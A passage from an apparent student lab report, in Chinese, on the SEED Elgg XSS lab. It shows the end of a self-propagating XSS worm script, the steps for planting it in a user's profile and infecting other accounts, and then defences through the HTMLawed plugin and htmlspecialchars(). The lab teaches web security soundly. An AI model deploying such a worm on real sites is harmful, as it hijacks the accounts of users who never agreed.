   ```
  		var samyGuid=44;
  
  		if(elgg.session.user.guid!=samyGuid)
  		{
  			var Ajax=null;
  			Ajax=new XMLHttpRequest();
  			Ajax.open("POST",sendurl,true);
  			Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  			Ajax.setRequestHeader("Content-Type",
  			"application/x-www-form-urlencoded");
  			Ajax.send(content);
  		}
  		
  	}
  </script>
  ```

  

- 将上述代码添加到Alice的`About me`中（文本模式）。

- 登录Boby用户，访问Alice，会出现XSS攻击提示框，如图：

  ![image-20200514003400615](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-14.png)

- 将Boby作为二级感染者，登录Samy，此时的主页是这样的：

  ![image-20200514003518178](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-15.png)

- Samy访问Boby，出现同样的XSS攻击提示框，说明XSS蠕虫感染成功，如图：

  ![image-20200514003558205](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-16.png)



---

**（8）对抗XSS攻击**

----

- 方法1：打开Elgg应用程序提供的自定义的内置安全插件HTMLawed。

  - 登录admin用户，右上角找到`Account->administration`，右侧栏找到`plugins`，向下滑找到插件 `HTMLawed`，点击`Activate`来应用它。这是一个可过滤输入输出的安全插件。

    ![image-20200514004720120](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-17.png)

  - 设置好后，登录Alice用户，此时可以看到上一问插入的蠕虫感染代码被当作数据显示了出来：

    ![image-20200514005127946](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-18.png)

- 方法2：在代码中调用`htmlspecialchars()`方法，主要是对特殊字符进行编码，这个也能解决XSS攻击问题。




